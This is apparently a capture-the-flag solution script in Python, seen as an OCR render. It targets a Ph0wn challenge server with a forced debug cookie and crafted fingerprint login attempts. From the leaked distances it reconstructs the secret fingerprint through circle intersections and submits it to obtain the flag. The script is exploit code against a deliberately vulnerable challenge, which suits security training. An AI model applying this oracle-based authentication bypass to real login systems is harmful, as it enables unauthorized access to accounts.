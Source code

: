 ```python
    if d < abs(r0-r1):
        return None
    # coincident circles
    if d == 0 and r0 == r1:
        return None
    else:
        a=(r0**2-r1**2+d**2)/(2*d)
        h=math.sqrt(r0**2-a**2)
        x2=x0+a*(x1-x0)/d   
        y2=y0+a*(y1-y0)/d   
        x3=x2+h*(y1-y0)/d     
        y3=y2-h*(x1-x0)/d 

        x4=x2-h*(y1-y0)/d
        y4=y2+h*(x1-x0)/d

        return [x3, y3], [x4, y4]

url = "http://challenges.ph0wn.org:1234"
username = 'admin'
saliencies1 = []
saliencies2 = []
cookies={'RGVidWdnaW5n':'VHJ1ZQ=='}
#1st request: how many points do we need?
req = requests.post(url=url,json={"username":username,"fingerprint":[]},cookies=cookies)
assert req.status_code == 200, "1st req: error in processing\n"+req.text
try:
    howMany = int(re.search('need\ ([0-9]+)',req.text).group(1))
    for salience in range(howMany):
        saliencies1.append([random.randint(0,500),random.randint(0,500)])
        saliencies2.append([random.randint(0,500),random.randint(0,500)])
    #2nd request: first series of distances
    req = requests.post(url=url,json={"username":username,"fingerprint":saliencies1},cookies=cookies)
    assert req.status_code == 200, "2nd req: error in processing\n"+req.text
    distances1 = req.text.replace("Login Failed ","").split(';')[:-1]
    #3rd request: second series of distances
    req = requests.post(url=url,json={"username":username,"fingerprint":saliencies2},cookies=cookies)
    assert req.status_code == 200, "3rd req: error in processing\n"+req.text
    distances2 = req.text.replace("Login Failed ","").split(';')[:-1]
    intersections1, intersections2 = [], []
    for p0, r0, p1, r1 in zip(saliencies1,distances1,saliencies2,distances2):
        intersection1, intersection2 = intersect(p0,float(r0),p1,float(r1))
        if intersection1 is None or intersection2 is None:
            raise Exception('Problem with intersections')
        intersections1.append(intersection1)
        intersections2.append(intersection2)
    #4th request: which points are correct?
    req = requests.post(url=url,json={"username":username,"fingerprint":intersections1},cookies=cookies)
    assert req.status_code == 200, "4th req: error in processing\n"+req.text
    distances3 = req.text.replace("Login Failed ","").split(';')[:-1]
    finalSaliences = []
    for index,distance in enumerate(distances3):
        if float(distance)<0.1:
            finalSaliences.append(intersections1[index])
        else:
            finalSaliences.append(intersections2[index])
    #5th request: get the flag
    req = requests.post(url=url,json={"username":username,"fingerprint":finalSaliences},cookies=cookies)
    assert req.status_code == 200, "5th req: error in processing\n"+req.text
```